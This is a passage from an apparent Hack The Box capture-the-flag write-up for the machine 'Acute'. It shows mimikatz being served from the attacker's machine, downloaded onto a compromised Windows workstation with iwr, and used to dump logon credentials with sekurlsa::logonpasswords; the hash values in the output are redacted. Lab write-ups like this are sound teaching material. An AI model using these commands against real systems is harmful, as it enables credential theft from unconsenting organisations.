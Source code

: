 ```shell
d-r---        07/12/2019     09:14                Pictures                                                             
d-----        07/12/2019     09:14                Saved Games                                                          
d-r---        07/12/2019     09:14                Videos                                                               
```

Now, a quick question: What is the first thing would you do after gaining administrator access in a domain-joined client workstation?

You guessed! **Dumping password hashes via [mimikatz](https://github.com/ParrotSec/mimikatz)!**

- Transfer mimikatz executable to `Acute-PC01`:

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|16:12:25(HKT)]
└> file /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
/usr/share/windows-resources/mimikatz/x64/mimikatz.exe: PE32+ executable (console) x86-64, for MS Windows, 6 sections
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|16:12:30(HKT)]
└> python3 -m http.server -d /usr/share/windows-resources/mimikatz/x64/ 80            
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
PS C:\Users\jmorgan\Documents> iwr -Uri http://10.10.14.19/mimikatz.exe -OutFile C:\Utils\mimikatz.exe
```

- Dump password hashes via `sekurlsa::logonpasswords`:

```shell
PS C:\Users\jmorgan\Documents> C:\Utils\mimikatz.exe
[...]
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords
[...]
Authentication Id : 0 ; 159931 (00000000:000270bb)
Session           : Interactive from 1
User Name         : edavies
Domain            : ACUTE
Logon Server      : ATSSERVER
Logon Time        : 15/08/2023 06:00:42
SID               : S-1-5-21-1786406921-1914792807-2072761762-1106
	msv :	
	 [00000003] Primary
	 * Username : edavies
	 * Domain   : ACUTE
	 * NTLM     : {Redacted}
	 * SHA1     : {Redacted}
	 * DPAPI    : {Redacted}
[...]
```
